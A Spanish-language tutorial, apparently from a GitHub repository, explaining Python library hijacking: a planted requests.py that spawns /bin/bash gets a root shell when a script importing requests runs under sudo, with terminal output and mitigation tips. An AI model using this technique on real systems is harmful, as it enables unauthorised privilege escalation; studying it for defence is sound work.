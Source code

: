 Funcionamiento del Ataque

   1- **Orden de Búsqueda de Módulos**:


        Python busca primero en el directorio actual desde donde se ejecuta el script. Si encuentra un archivo 
        con el mismo nombre que el módulo que se intenta importar, lo cargará en lugar del módulo original.




  2- **Creación de un Módulo Malicioso**:


        Al crear un archivo con el mismo nombre que un módulo legítimo (por ejemplo, requests.py), se puede 
        inyectar código malicioso que se ejecutará cuando el script intente importar ese módulo.




3- **Ejecución del Código Malicioso**:


        Si el script se ejecuta con privilegios elevados (por ejemplo, usando sudo), el código malicioso se 
        ejecutará con esos privilegios, lo que puede comprometer la seguridad del sistema.

        
**Ejemplo**

iker@181f77f462ad:~$ cat geo_ip.py 

import requests; 

ip = input('Introduce la direccion IP que quieras geolocalizar: ')

respuesta = requests.get(f'http://ip-api.com/json/{ip}')

data = respuesta.json()

print(data)

nano requests.py

import os
os.system('/bin/bash')

iker@181f77f462ad:~$ sudo /usr/bin/python3 /home/iker/geo_ip.py

root@181f77f462ad:/home/iker# whoami

root

root@181f77f462ad:/home/iker# 


**Mitigación**

Para mitigar este tipo de ataques, debemos considerar las siguientes prácticas:


    Evitar el uso de sudo para ejecutar scripts de Python: Siempre que sea posible, evita ejecutar scripts con privilegios elevados.

    Validar el entorno de ejecución: Asegúrate de que el entorno de ejecución no contenga archivos maliciosos con nombres de módulos comunes.

    Usar entornos virtuales: Los entornos virtuales pueden ayudar a aislar las dependencias y reducir el riesgo de conflictos de nombres de módulos.

    Revisar el código fuente: Antes de ejecutar scripts de terceros, revisa el código para detectar posibles importaciones de módulos maliciosos.






